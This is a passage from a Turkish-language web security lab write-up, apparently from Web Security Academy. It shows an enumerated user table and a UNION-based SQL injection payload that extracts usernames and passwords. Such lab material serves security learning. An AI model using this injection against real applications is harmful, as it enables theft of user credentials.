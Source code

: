 ![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-30.png)

```python
Tablo adı ve Kolon isimlerimizi not alıyoruz:
tablo: 
**USERS_XEDOYY
kolonlar:**
EMAIL
PASSWORD_VDQFLZ
USERNAME_ZIOPHP
```

Bu aşamadan sonra da bu kolonlardaki verileri çekmeye yönelik bir SQL sorgusu yazmamız gerekmektedir. Burada iki kolon da ekrana yazıldığı için concatenation yani birleştirme yapmamıza gerek yok.

```python
mdisec' UNION SELECT USERNAME_ZIOPHP,PASSWORD_VDQFLZ FROM USERS_XEDOYY --
```

![Untitled](Web-Security-0x0A-Web-Security-Academy'den-Devam-E-5d98a1205cb7439db45c8e0570ab118e/Untitled-31.png)
